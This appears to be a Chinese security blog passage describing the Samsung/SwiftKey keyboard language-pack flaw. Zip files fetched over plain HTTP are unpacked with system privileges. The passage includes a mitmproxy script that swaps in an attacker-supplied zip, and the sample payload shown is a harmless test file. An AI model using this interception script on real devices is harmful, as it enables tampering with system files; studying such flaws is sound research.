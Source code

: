 * * *

Swift输入法有一个升级功能可以添加一个新的语言包到现在有的语言中.当用户下载新的语言包的时候.会进行如下请求:

```
GET http://skslm.swiftkey.net/samsung/downloads/v1.3-USA/az_AZ.zip
              ← 200 application/zip 995.63kB 601ms

```

压缩包下载后会被解压到以下目录:

```
/data/data/com.sec.android.inputmethod/app_SwiftKey/<languagePackAbbrev>/.

```

压缩包内容:

```
root@kltevzw:/data/data/com.sec.android.inputmethod/app_SwiftKey/az_AZ # ls -l
       -rw------- system   system     606366 2015-06-11 15:16 az_AZ_bg_c.lm1
       -rw------- system   system    1524814 2015-06-11 15:16 az_AZ_bg_c.lm3
       -rw------- system   system        413 2015-06-11 15:16 charactermap.json
       -rw------- system   system         36 2015-06-11 15:16 extraData.json
       -rw------- system   system         55 2015-06-11 15:16 punctuation.json

```

可以看出压缩包中的文件是由 system user 写入的.权限很高哦,可以写入很多位置哦.因为压缩包和请求都是明文的,咱们可以尝试去篡改它.

可以通过 wifi 代理完成这个尝试,写了一个脚本来提高效率,脚本作用是当有语言包的请求时进行修改

```
def request(context, flow):
           if not flow.request.host == "kslm.swiftkey.net" or not flow.request.endswith(".zip"):
             return

           resp = HTTPResponse(
               [1, 1], 200, "OK",
               ODictCaseless([["Content-Type", "application/zip"]]),
               "helloworld")

           with open('test_language.zip', 'r') as f:
             payload = f.read()
             resp.content = payload
             resp.headers["Content-Length"] = [len(payload)]

           flow.reply(resp)

```

Payload非常简单,就一个文件

```
➜  /tmp  unzip -l test_keyboard.zip
       Archive:  test_keyboard.zip
         Length     Date   Time    Name
        --------    ----   ----    ----
               6  06-11-15 15:33   test
        --------                   -------
               6                   1 file

```
